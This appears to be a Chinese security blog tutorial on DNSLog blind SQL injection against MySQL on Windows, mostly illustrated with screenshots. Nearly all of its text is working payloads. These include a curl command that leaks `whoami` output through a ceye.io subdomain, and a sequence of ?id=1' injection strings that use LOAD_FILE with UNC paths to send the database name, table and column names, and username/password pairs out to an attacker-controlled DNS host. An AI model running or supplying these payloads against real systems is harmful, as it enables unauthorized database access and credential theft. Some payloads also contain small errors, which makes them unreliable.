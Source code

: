 ```yaml
---
layout: post
title: 1.3.3-SQL注入-SQL盲注-Dnslog盲注
category: 
  - web安全
tags: 
  - sql注入 
  - sql盲注
abbrlink: 2964387005
date: 2018-06-23 00:00:00
description: more
---
```


> 需要目标机器时windows系统

## DnsLog盲注

### DnsLog盲注原理
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/01.jpeg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/02.jpeg)
Dnslog平台：http://ceye.io/  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/03.jpeg)



	http://ceye.io/profile
	curl mzq83x.ceye.io

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/05.png)


	curl `whoami`.mzq83x.ceye.io


![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/06.jpeg)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/04.jpeg)




![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/07.jpeg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/08.jpeg)

### DnsLog盲注方法
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/09.jpeg)

	核心语法： SELECT LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.r5ourp.ceye.io\\abc'));
	sql语句不能含有特殊符号

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/10.jpeg)

	查表
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.mysql.r5oup.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/11.jpeg)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/12.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select colum_name from information_schema.columns where table_name='users' limit 5,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/13.jpeg)
	
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat(username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/14.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat_ws('A',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/15.jpeg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/16.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select hex('~',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/17.jpeg)




![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/18.jpeg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/19.jpeg)

https://github.com/ADOOO/DnslogSqlinj